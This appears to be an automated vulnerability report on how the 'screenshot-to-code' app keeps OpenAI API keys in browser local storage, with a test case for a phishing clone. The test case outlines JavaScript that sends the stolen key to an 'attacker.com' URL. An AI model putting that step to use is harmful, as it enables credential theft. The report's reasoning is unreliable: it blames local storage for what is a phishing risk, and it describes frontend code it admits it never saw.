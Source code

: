 * Vulnerability name: Insecure Storage of OpenAI API Keys in Browser Local Storage
* Description:
    1. The application prompts users to enter their OpenAI API keys in the settings dialog.
    2. These API keys are stored in the browser's local storage.
    3. While local storage is client-side and not directly accessible by other websites, it is vulnerable to attacks such as:
        - JavaScript-based attacks (e.g., Cross-Site Scripting - XSS, if the application were to become vulnerable to it in the future).
        - If the user's browser or machine is compromised by malware, the local storage data can be accessed.
        - Most importantly in the context of the described attack vector, a phishing website mimicking this application could trick users into entering their API keys. If a user enters their API key into a fake website, that malicious site's JavaScript can easily access and exfiltrate the key, as it is stored in the local storage of the browser within the context of that fake website.
    4. An attacker can create a phishing website that looks identical to the legitimate application.
    5. Unsuspecting users might enter their OpenAI API keys into this phishing website, believing it to be the real application.
    6. The phishing website's JavaScript can then retrieve the API key from the local storage and send it to the attacker's server.
* Impact:
    - **Loss of OpenAI API Keys:**  Attackers can steal users' OpenAI API keys.
    - **Financial Loss:** If the stolen API keys are used to make requests to the OpenAI API, the legitimate users will be billed for these requests, leading to financial loss.
    - **Data Breach (Potential):** Depending on the scope of access granted by the API key and the capabilities of the AI models, attackers might potentially gain access to or manipulate data accessible through the OpenAI API.
* Vulnerability rank: High
* Currently implemented mitigations:
    - **Client-side Storage:** The application stores the API key only in the user's browser local storage, as stated in `Troubleshooting.md`: "Your key is only stored in your browser. Never stored on our servers." This is mentioned as a privacy feature but doesn't prevent client-side theft if the user is tricked into using a malicious site.
    - **No Backend Storage:** The backend code does not store or log the API keys, which limits the exposure if the backend itself is compromised.
* Missing mitigations:
    - **Input Validation and Sanitization on Frontend:** While not directly related to storage security, robust input validation on the frontend could help prevent potential future XSS vulnerabilities that could be used to steal local storage data.
    - **Phishing Awareness Education:**  Educating users about the risks of phishing attacks and how to identify fake websites is crucial. This could be in the form of warnings on the website, blog posts, or FAQs.
    - **Secure API Key Handling Guidance:** Provide clear guidance to users on best practices for handling API keys, such as using separate, limited-access API keys specifically for this application, and monitoring API usage.
    - **Consider More Secure Storage (Potentially Overkill for this project):** For highly sensitive applications, consider more secure client-side storage mechanisms if feasible and necessary, though local storage is the common approach for client-side settings. However, for API keys, especially with financial implications, more robust methods might be considered in other contexts. For this project, focusing on preventing phishing and user education is likely more effective.
* Preconditions:
    - User visits a phishing website that mimics the legitimate "screenshot-to-code" application.
    - User is tricked into entering their OpenAI API key into the settings dialog of the phishing website.
* Source code analysis:
    1. **Frontend Settings Dialog:** The frontend code (not provided in PROJECT FILES, but inferred from the description and `README.md`) likely contains a settings dialog where users input their OpenAI API key. This dialog will have JavaScript code to:
        - Read the API key from the input field.
        - Store the API key in the browser's local storage using `localStorage.setItem('openAiApiKey', apiKey)`.
    2. **Frontend API Request:** When the user uses the application, the frontend JavaScript code retrieves the API key from local storage using `localStorage.getItem('openAiApiKey')`.
    3. **Backend API Call:** The frontend then sends the API key to the backend as part of the request headers or body when calling the backend API endpoints (e.g., `/generate-code` websocket route in `backend\routes\generate_code.py`). The backend then uses this API key to authenticate with OpenAI.
    4. **No Backend Storage:** Review of the backend code (`backend\config.py`, `backend\routes\generate_code.py`, `backend\llm.py`) confirms that the backend only receives and uses the API key for the duration of the request and does not store it in any persistent storage or logs.
    5. **`Troubleshooting.md` and `README.md`:** These documentation files instruct users to obtain and enter their OpenAI API keys, and `Troubleshooting.md` mentions client-side storage. This confirms the application's intended design of client-side API key handling.

* Security test case:
    1. **Setup Phishing Website:** Create a simple HTML page that visually mimics the "screenshot-to-code" application's frontend, particularly the settings dialog where the API key is entered. Host this phishing page on a publicly accessible URL (e.g., using a free hosting service or ngrok for testing).
    2. **Add Malicious JavaScript to Phishing Website:** Include JavaScript code in the phishing website that does the following:
        - Creates a fake settings dialog similar to the real application.
        - When a user enters an API key and clicks "Save" (or similar), the JavaScript:
            - Stores the API key in the phishing website's local storage (just like the real app).
            - **Exfiltrates the API key:** Sends the API key to an attacker-controlled server. This could be done via `fetch()` or `XMLHttpRequest()` to a URL like `https://attacker.com/api/steal_key?key=<api_key>`.
            - Optionally, redirects the user to the legitimate "screenshot-to-code" website to further deceive them.
    3. **Distribute Phishing Link:**  Share the link to the phishing website with a test user (or simulate a user visiting it).
    4. **Test User Interaction:** The test user visits the phishing website and, believing it to be the real application, enters their valid OpenAI API key into the fake settings dialog and "saves" it.
    5. **Attacker Server Verification:** Check the attacker-controlled server's logs or database to confirm that the API key entered by the test user was successfully received and stolen.
    6. **Local Storage Check (Phishing Site):** Inspect the local storage of the phishing website in the test user's browser to confirm the API key is stored there (as the malicious JavaScript mimics the real app's storage behavior).
    7. **Local Storage Check (Legitimate Site):**  (Optional) If the user was redirected to the real application, check the local storage of the legitimate "screenshot-to-code" website to confirm that *it* did *not* receive the API key from the phishing site (local storage is origin-based, so the phishing site's local storage is separate).

This test case will demonstrate that an attacker can successfully steal OpenAI API keys from users who are tricked into using a phishing website mimicking the "screenshot-to-code" application, due to the application's reliance on browser local storage and lack of phishing protection mechanisms.

